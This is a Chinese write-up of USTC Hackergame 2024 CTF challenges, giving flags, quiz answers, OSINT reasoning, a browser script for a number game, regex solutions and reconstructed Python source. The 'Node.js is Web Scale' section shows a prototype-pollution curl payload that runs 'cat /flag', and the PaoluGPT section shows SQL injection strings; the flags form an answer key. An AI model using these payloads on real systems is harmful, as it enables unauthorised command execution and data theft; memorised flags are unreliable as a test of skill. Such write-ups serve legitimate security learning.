> 博客：https://blog.skyw.cc/
> flowus wp 地址：https://flowus.cn/xyhelp/share/d7a78663-e26b-4866-b8d5-dfce1d0f52d7?code=DRAURT

# 签到

pass=true



flag{w3!cOme-To-HAcKErG4Me-@nd-3nJoy-H4CKInG-Z0Z4}

# 喜欢做签到的 CTFer 你们好呀

[https://github.com/Nebula-CTFTeam/Recruitment-2024](https://github.com/Nebula-CTFTeam/Recruitment-2024)

[https://nebuu.la/](https://nebuu.la/)

搜索flag，发现很多atobbase64解码



atob("ZmxhZ3swa18xNzVfYV9oMWRkM25fczNjM3J0X2YxNGdfX19wbGVhc2Vfam9pbl91c191c3RjX25lYnVsYV9hbkRfdHdvX21hSm9yX3JlcXVpcmVtZW50c19hUmVfc2hvd25fc29tZXdoZXJlX2Vsc2V9")

'flag{0k_175_a_h1dd3n_s3c3rt_f14g___please_join_us_ustc_nebula_anD_two_maJor_requirements_aRe_shown_somewhere_else}'

atob("RkxBRz1mbGFne2FjdHVhbGx5X3RoZXJlc19hbm90aGVyX2ZsYWdfaGVyZV90cllfdG9fZjFuRF8xdF95MHVyc2VsZl9fX2pvaW5fdXNfdXN0Y19uZWJ1bGF9")

'FLAG=flag{actually_theres_another_flag_here_trY_to_f1nD_1t_y0urself___join_us_ustc_nebula}'

# 猫咪问答（Hackergame 十周年纪念版）

1. 在 Hackergame 2015 比赛开始前一天晚上开展的赛前讲座是在哪个教室举行的？**（30 分）**

[https://lug.ustc.edu.cn/wiki/lug/events/hackergame/](https://lug.ustc.edu.cn/wiki/lug/events/hackergame/)

 科大信息安全大赛自 2014 年起开始举办 2015第二届

[https://lug.ustc.edu.cn/wiki/sec/contest.html](https://lug.ustc.edu.cn/wiki/sec/contest.html)

3A204

2. 众所周知，Hackergame 共约 25 道题目。近五年（不含今年）举办的 Hackergame 中，题目数量最接近这个数字的那一届比赛里有多少人注册参加？**（30 分）**

23 29 超过 4100 人

[https://github.com/USTC-Hackergame/hackergame2023-writeups/](https://github.com/USTC-Hackergame/hackergame2023-writeups/)

22  33 超过 4500 人

[https://github.com/USTC-Hackergame/hackergame2022-writeups](https://github.com/USTC-Hackergame/hackergame2022-writeups)

21  31 4023 人注册

[https://github.com/USTC-Hackergame/hackergame2021-writeups](https://github.com/USTC-Hackergame/hackergame2021-writeups)

20  31 3733 人注册

[https://github.com/USTC-Hackergame/hackergame2020-writeups](https://github.com/USTC-Hackergame/hackergame2020-writeups)

19 28 2682 人注册

[https://github.com/ustclug/hackergame2019-writeups](https://github.com/ustclug/hackergame2019-writeups)

2682

flag1:flag{a_9OOd_©ΛT_Is_ThE_cαt_ωho_c@И_PA5s_tHE_QU!Z}

3. Hackergame 2018 让哪个热门检索词成为了科大图书馆当月热搜第一？**（20 分）**


程序员的自我修养

4. 在今年的 USENIX Security 学术会议上中国科学技术大学发表了一篇关于电子邮件伪造攻击的论文，在论文中作者提出了 6 种攻击方法，并在多少个电子邮件服务提供商及客户端的组合上进行了实验？**（10 分）**



[https://www.usenix.org/system/files/usenixsecurity24-ma-jinrui.pdf](https://www.usenix.org/system/files/usenixsecurity24-ma-jinrui.pdf)


336

5. 10 月 18 日 Greg Kroah-Hartman 向 Linux 邮件列表提交的一个 patch 把大量开发者从 MAINTAINERS 文件中移除。这个 patch 被合并进 Linux mainline 的 commit id 是多少？**（5 分）**

[https://github.com/torvalds/linux/commit/6e90b675cf942e50c70e8394dfb5862975c3b3b2](https://github.com/torvalds/linux/commit/6e90b675cf942e50c70e8394dfb5862975c3b3b2)

6e90b6

6. 大语言模型会把输入分解为一个一个的 token 后继续计算，请问这个网页的 HTML 源代码会被 Meta 的 Llama 3 70B 模型的 tokenizer 分解为多少个 token？**（5 分）**

[https://huggingface.co/baseten/Meta-Llama-3-tokenizer](https://huggingface.co/baseten/Meta-Llama-3-tokenizer)

[https://belladoreai.github.io/llama3-tokenizer-js/example-demo/build/](https://belladoreai.github.io/llama3-tokenizer-js/example-demo/build/)

[https://lunary.ai/llama3-tokenizer](https://lunary.ai/llama3-tokenizer)

[https://www.modelscope.cn/models/LLM-Research/Meta-Llama-3-70B-Instruct/files](https://www.modelscope.cn/models/LLM-Research/Meta-Llama-3-70B-Instruct/files)

试了几次不对，大概在1854，开爆破





1833

flag{t3И_¥e@Я$_ØF_hΛ©kEЯGΛme_OMEd3tOบ_W!Th_И3k0_quIZ}

# 打不开的盒

[https://www.viewstl.com/#!](https://www.viewstl.com/#!)


```Plain Text
flag{Dr4W_Us!nG_fR3E_C4D!!w0W}
```

# 每日论文太多了！




```Plain Text
flag{h4PpY_hAck1ng_3veRyd4y}
```

# 比大小王

```Plain Text
async function fetchAndSubmit() {
    try {
        // 先获取所有大小的对比数据
        const response = await fetch("http://202.38.93.141:12122/game", {
            method: "POST",
            headers: {
                "Content-Type": "application/json"
            },
            body: JSON.stringify({})
        });

        const data = await response.json();
        const values = data.values;
        const inputs = []; // 用于存储用户的输入

        // 遍历 values，构建 inputs
        for (const pair of values) {
            const value1 = pair[0];
            const value2 = pair[1];
            if (value1 < value2) {
                inputs.push('<'); // 如果第一个数小于第二个，输入 '<'
            } else {
                inputs.push('>'); // 如果第一个数大于等于第二个，输入 '>'
            }
            // 延迟一小段时间（比如100毫秒）
            await new Promise(resolve => setTimeout(resolve, 100));
        }

        // 提交 inputs
        const submitResponse = await fetch("/submit", {
            method: "POST",
            headers: {
                "Content-Type": "application/json"
            },
            body: JSON.stringify({ inputs })
        });

        const submitData = await submitResponse.json();
        console.log('提交成功:', submitData.message);
    } catch (error) {
        console.error('发生错误:', error);
    }
}

// 调用函数
fetchAndSubmit();

```



flag{!-@m-tH3-hAck3R-K1nG-0f-CoMp@RiN9-nUm6eR$-zOz4}

# 旅行照片 4.0

## ...LEO 酱？……什么时候

"LEO酱"主要指的是中国科学技术大学Leo学生动漫协会的虚拟形象或昵称

科里科气科创驿站(科大站)

[https://www.ustc.edu.cn/__local/E/1D/C2/D8FA8F6B58664E70A761F93FE7A_A2797589_73D4A.jpg](https://www.ustc.edu.cn/__local/E/1D/C2/D8FA8F6B58664E70A761F93FE7A_A2797589_73D4A.jpg)

**东校区西门**

2024年5月19日

20240519


`flag{5UB5CR1B3_T0_L30_CH4N_0N_B1L1B1L1_PLZ_98794d67e7}`

## 诶？我带 LEO 酱出去玩？真的假的？


六安国材

[https://news.qq.com/rain/a/20241101A084LO00](https://news.qq.com/rain/a/20241101A084LO00)

六安市中央森林公园


[https://baike.baidu.com/item/%E4%B8%89%E5%B3%A1%E6%88%AA%E6%B5%81%E7%9F%B3/16268005](https://baike.baidu.com/item/%E4%B8%89%E5%B3%A1%E6%88%AA%E6%B5%81%E7%9F%B3/16268005)

宜昌城，古夷陵

襄阳古城

[https://gs.ctrip.com/html5/you/sight/yichang313/1975321.html](https://gs.ctrip.com/html5/you/sight/yichang313/1975321.html)

坛子岭

flag{D3T41LS_M4TT3R_1F_R3V3RS3_S34RCH_1S_1MP0SS1BL3_8cb69a32c8}

## 尤其是你才是最该多练习的人


[https://baike.baidu.com/item/%E5%92%8C%E8%B0%90%E5%8F%B7CRH6%E5%9E%8B%E7%94%B5%E5%8A%9B%E5%8A%A8%E8%BD%A6%E7%BB%84](https://baike.baidu.com/item/%E5%92%8C%E8%B0%90%E5%8F%B7CRH6%E5%9E%8B%E7%94%B5%E5%8A%9B%E5%8A%A8%E8%BD%A6%E7%BB%84)

[https://baike.baidu.com/item/CJ6%E5%8A%A8%E8%BD%A6%E7%BB%84/24229612](https://baike.baidu.com/item/CJ6%E5%8A%A8%E8%BD%A6%E7%BB%84/24229612)

[https://www.china-emu.cn/Trains/](https://www.china-emu.cn/Trains/)

[https://www.china-emu.cn/Trains/Model/detail-26008-31-F.html](https://www.china-emu.cn/Trains/Model/detail-26008-31-F.html)

复兴号

[https://commons.wikimedia.org/wiki/Category:China_Railways_CR400AF](https://commons.wikimedia.org/wiki/Category:China_Railways_CR400AF)

[https://en.wikipedia.org/wiki/File:CRH6F-A-0492_at_Beitaishang_%2820201014164220%29.jpg](https://en.wikipedia.org/wiki/File:CRH6F-A-0492_at_Beitaishang_%2820201014164220%29.jpg)

CRH6F-A




# Node.js is Web Scale

   步骤1：进行原型污染

发送POST请求：


     ```bash

     curl -X POST https://chal03-qt8nol2k.hack-challenge.lug.ustc.edu.cn:8443/set \

     -H "Content-Type: application/json" \

     -d '{"key":"__proto__.getflag","value":"cat /flag"}'

     ```


     成功后，服务器的`Object.prototype`将包含`getflag`命令。


 执行注入的命令获取flag


     访问以下URL：


     ```

     https://chal03-qt8nol2k.hack-challenge.lug.ustc.edu.cn:8443/execute?cmd=getflag

     ```


     服务器将执行`cat /flag`命令，并返回flag内容。

flag{n0_pr0topOIl_50_U5E_new_Map_1n5teAD_Of_0bject2kv_dabcbb565a}



# PaoluGPT

1

' OR contents LIKE '%flag%' --



flag{zU1_xiA0_de_11m_Pa0lule!!!_c2ecac9c0b}

找到上面文章id后继续构造

' OR (id!='bffd8d8f-367b-4ee7-88c7-de324c03fcf0' and contents LIKE '%flag%') --



flag{enJ0y_y0uR_Sq1_&_1_would_xiaZHOU_hUI_guo_fe5b26d3aa}


# 强大的正则表达式

## Easy

找到资料，有限状态机，给o1生成

```Plain Text
# 完成 easy.py

import re
import random

allowed_chars = "0123456789()|*"
max_len = 1000000
num_tests = 300

# 生成能被16整除的数字列表
numbers_div_by_16 = [str(i) for i in range(0, 10000, 16)]
regex_part1 = '(' + '|'.join(numbers_div_by_16) + ')'

# 生成补零后的四位数字列表
numbers_div_by_16_zfill = [str(i).zfill(4) for i in range(0, 10000, 16)]
digits = '(0|1|2|3|4|5|6|7|8|9)'

# 构建正则表达式的第二部分，匹配任意位数的数字，最后四位能被16整除
regex_part2 = '(' + digits + '(' + digits + ')*)(' + '|'.join(numbers_div_by_16_zfill) + ')'

# 合并正则表达式
regex_string = '(' + regex_part1 + '|' + regex_part2 + ')'

if len(regex_string) > max_len:
    raise ValueError("Regex string too long")

if not all(c in allowed_chars for c in regex_string):
    raise ValueError("Invalid character in regex string")

regex = re.compile('^' + regex_string + '$')

for i in range(num_tests):
    expected_result = (i % 2 == 0)
    while True:
        t = random.randint(0, 2**64)
        test_string = str(t)
        if (t % 16 == 0) == expected_result:
            break
    regex_result = bool(regex.fullmatch(test_string))
    if regex_result == expected_result:
        print("Pass", test_string, regex_result, expected_result)
    else:
        print("Fail", test_string, regex_result, expected_result)
        raise RuntimeError("Failed")

```



flag{p0werful_r3gular_expressi0n_easy_c2bb3184bb}

## Medium

从维基百科找到的网站

[https://s3.boskent.com/divisibility-regex/divisibility-regex.html](https://s3.boskent.com/divisibility-regex/divisibility-regex.html)



# 惜字如金 3

## 1

o1mini恢复加空格填充得到

```Plain Text
#!/usr/bin/python3

import atexit, base64, flask, itertools, os, re


def crc(input: bytes) -> int:
    poly, poly_degree = 'AaaaaaAaaaAAaaaaAAAAaaaAAAaAaAAAAaAAAaaAaaAaaAaaA', 48
    assert len(poly) == poly_degree + 1 and poly[0] == poly[poly_degree] == 'A'
    flip = sum(['a', 'A'].index(poly[i + 1]) << i for i in range(poly_degree))
    digest = (1 << poly_degree) - 1
    for b in input:
        digest = digest ^ b
        for _ in range(8):
            digest = (digest >> 1) ^ (flip if digest & 1 == 1 else 0)
    return digest ^ ((1 << poly_degree) - 1)


def hash_func(input: bytes) -> bytes:
    digest = crc(input)
    u2, u1, u0 = 0xCb4EcdfD0A9F, 0xa9dec1C1b7A3, 0x60c4B0aAB4Bf
    assert (u2, u1, u0) == (223539323800223, 186774198532003, 106397893833919)
    digest = (digest * (digest * u2 + u1) + u0) % (1 << 48)
    return digest.to_bytes(48 // 8, 'little')


def xzrj(input: bytes) -> bytes:
    pat, repl = rb'([B-DF-HJ-NP-TV-Z])\1*(E(?![A-Z]))?', rb'\1'
    return re.sub(pat, repl, input, flags=re.IGNORECASE)


paths: list[bytes] = []

xzrj_bytes: bytes = bytes()

with open(__file__, 'rb') as f:
    for row in f.read().splitlines():
        row = (row.rstrip() + b' ' * 80)[:80]
        path = base64.b85encode(hash_func(row)) + b'.txt'
        with open(path, 'wb') as pf:
            pf.write(row)
            paths.append(path)
            xzrj_bytes += xzrj(row) + b'\r\n'

    def clean():
        for path in paths:
            try:
                os.remove(path)
            except FileNotFoundError:
                pass

    atexit.register(clean)


bp: flask.Blueprint = flask.Blueprint('answer_a', __name__)


@bp.get('/answer_a.py')
def get() -> flask.Response:
    return flask.Response(xzrj_bytes, content_type='text/plain; charset=UTF-8')


@bp.post('/answer_a.py')
def post() -> flask.Response:
    wrong_hints = {}
    req_lines = flask.request.get_data().splitlines()
    iterator = enumerate(itertools.zip_longest(paths, req_lines), start=1)
    for index, (path, req_row) in iterator:
        if path is None:
            wrong_hints[index] = 'Too many lines for request data'
            break
        if req_row is None:
            wrong_hints[index] = 'Too few lines for request data'
            continue
        req_row_hash = hash_func(req_row)
        req_row_path = base64.b85encode(req_row_hash) + b'.txt'
        if not os.path.exists(req_row_path):
            wrong_hints[index] = f'Unmatched hash ({req_row_hash.hex()})'
            continue
        with open(req_row_path, 'rb') as pf:
            row = pf.read()
            if len(req_row) != len(row):
                wrong_hints[index] = f'Unmatched length ({len(req_row)})'
                continue
            unmatched = [req_b for b, req_b in zip(row, req_row) if b != req_b]
            if unmatched:
                wrong_hints[index] = f'Unmatched data (0x{unmatched[-1]:02X})'
                continue
            if path != req_row_path:
                wrong_hints[index] = f'Matched but in other lines'
                continue
    if wrong_hints:
        return {'wrong_hints': wrong_hints}, 400
    with open('answer_a.txt', 'rb') as af:
        answer_flag = base64.b85decode(af.read()).decode()
        closing, opening = answer_flag[-1:], answer_flag[:5]
        assert closing == '}' and opening == 'flag{'
        return {'answer_flag': answer_flag}, 200
```

剩下几行自己改，llm有些变量搞错了



## 2

llm恢复

```Plain Text
#!/usr/bin/python3

import atexit, base64, flask, itertools, os, re


def crc(input: bytes) -> int:
    poly, poly_degree = 'BbbbbbbBbbbBBbbbbBBBBbbbBBBbBbBBBBbBBBbbBbbBbbBbbBb', 48
    assert len(poly) == poly_degree + 1 and poly[0] == poly[poly_degree] == 'B'
    flip = sum(['b', 'B'].index(poly[i + 1]) << i for i in range(poly_degree))
    digest = (1 << poly_degree) - 1
    for b in input:
        digest = digest ^ b
        for _ in range(8):
            digest = (digest >> 1) ^ (flip if digest & 1 == 1 else 0)
    return digest ^ ((1 << poly_degree) - 1)


def hash_func(input: bytes) -> bytes:
    digest = crc(input)
    u2, u1, u0 = 0xdbeEaed4cF43, 0xFDFECeBdeeD9, 0xB7E85A4E5Dcd
    assert (u2, u1, u0) == (241818181881667, 279270832074457, 202208575380941)
    digest = (digest * (digest * u2 + u1) + u0) % (1 << 48)
    return digest.to_bytes(48 // 8, 'little')


def xzrj(input: bytes) -> bytes:
    pat, repl = rb'([B-DF-HJ-NP-TV-Z])\1*(E(?![A-Z]))?', rb'\1'
    return re.sub(pat, repl, input, flags=re.IGNORECASE)


paths: list[bytes] = []

xzrj_bytes: bytes = bytes()

with open(__file__, 'rb') as f:
    for row in f.read().splitlines():
        row = (row.rstrip() + b' ' * 80)[:80]
        path = base64.b85encode(hash_func(row)) + b'.txt'
        with open(path, 'wb') as pf:
            pf.write(row)
            paths.append(path)
            xzrj_bytes += xzrj(row) + b'\r\n'

    def clean():
        for path in paths:
            try:
